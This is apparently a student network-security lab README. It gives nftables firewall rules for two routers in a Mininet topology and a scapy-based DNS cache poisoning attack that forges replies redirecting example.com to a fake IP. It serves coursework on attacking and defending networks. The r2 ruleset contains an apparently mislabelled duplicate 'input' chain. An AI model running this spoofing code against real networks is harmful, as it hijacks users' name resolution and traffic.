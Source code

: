 # LINFO2347 – Project Network Attacks

## Authors
Deroeux Elric (noma:)
Lévêque Quentin (noma:)

## Basic enterprise network protection
For the basic entreprise network protection we tried to keep our NFT super simplified.

- No statement have been made for routers behavior, we allow them to send/receive ping/connection.
- Routers forward behavior is "default drop" as it is a good practice

### r1 NFTable:
```
#!/usr/sbin/nft -f

flush ruleset

table inet filter { 
    chain input {
        type filter hook input priority 0; policy accept;
    }
    chain forward {
        type filter hook forward priority 0; policy drop;
        
        ct state established,related accept
        
        iif r1-eth0 oif r1-eth12 accept
    }
    chain output {
        type filter hook output priority 0; policy accept;
    }
}
```
- r1 could be ip-oriented `iif r1-eth0 ip saddr 10.1.0.0/24 accept` or shorter `iif r1-eth0 accept`.
- r1 accept response to new/old connections
- DMZ servers can ping each other has the case has been discuted in teams. Otherwise additionnal firewall would have been needed for each DMZ server.

### r2 NFTable: 
```
#!/usr/sbin/nft -f 

flush ruleset

table inet filter { 
    chain input {
        type filter hook input priority 0; policy accept;
    }
    chain forward {
        type filter hook forward priority 0; policy drop;
        
        ct state established,related accept	
        
        iif r2-eth12 oif r2-eth0 ip saddr 10.1.0.0/24 accept
        
        iif r2-eth0 oif r2-eth12 accept
    }
    chain input {
        type filter hook output priority 0; policy accept;
    }
}
```
- r2 need to allow packets from workstations IPs only.
- Everything from internet can come in because of r1 drop policy that will block packet not destinated to DMZ.
### Application of rules:
We modified the topo.py to apply our basic NFTables to r1 and r2.
```python
...
def apply_nftables_rules(net: Mininet) -> None:
    info("Applying nftables rules on r1...\n")
    info(net['r1'].cmd("nft -f ~/LINFO2347/r1.nft"))
    
    info("Applying nftables rules on r2...\n")
    info(net['r2'].cmd("nft -f ~/LINFO2347/r2.nft"))
...
```
We call this function after the `add_routes` function.


## DNS Cache Poisoning

### Attack
This script manage `r1` to intercept DNS requests from the workstations (`ws2` and `ws3`) and spoof the DNS response. By doing so, it aim to poison the DNS cache with a forged IP address (`1.2.3.4`) configurable, redirecting future requests for that domain (`example.com`) to a malicious server.
We use `example.com` due to the configuration of the DNS server that associate `example.com` to the IP adress `192.0.2.192` as it's specified in the dnsmasq config `address=/example.com/192.0.2.192`

#### Config
```
TARGET_DOMAIN = b"example.com."
FAKE_IP = "1.2.3.4"
DNS_PORT = 5353
```
#### Sniffing
`r1` start sniffing all the DNS packet that go through `r1-eth0` and start to anaylze them.
```python
from scapy.all import *
...
print(f"Listening for DNS queries on port {DNS_PORT}...")
sniff(filter=f"udp port {DNS_PORT}", iface="r1-eth0", prn=spoof_dns, store=0)
```
#### Filtering
It drop the packet that are not query and that are not asking about the domain `example.com`
```python
    ...
    if pkt.haslayer(DNS) and pkt.getlayer(DNS).qr == 0:
        qname = pkt[DNSQR].qname
    else:
        return
        
    if qname != TARGET_DOMAIN:
        return
        
    print(f"{qname.decode()} found, spoofing DNS response ...")
    ...
```
#### Spoofing
It use informations of intercepted packet to build a credible response. 
It invert source and destination IPs and ports, it use the same ID request and use the fake ip adress.
Then it send the spoofed packet that should come before the DNS response.
```
...
    ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
    udp = UDP(dport=pkt[UDP].sport, sport=DNS_PORT)
    dns = DNS(
        id=pkt[DNS].id,
        qr=1,
        aa=1,
        qd=pkt[DNS].qd,
        an=DNSRR(rrname=qname, ttl= 300,rdata=FAKE_IP)
    )
    spoofed_pkt = ip / udp / dns
    send(spoofed_pkt, verbose=0)
    print(f"Spoofed packet sent with ip {FAKE_IP}")
...
```
#### Perform the attack
On `r1` execute the script `python3 ~/LINFO2347/attacks/dns_cache_poisoning.py`
Then on `ws2`OR/AND `ws3` perform a DNS query to the DNS server asking for example.com `dig @10.12.0.20 -p 5353 example.com +short`
#### Result
Based on the DNS response of the `dig` command
Either `192.0.2.192` if the attack missed or `1.2.3.4` if it worked

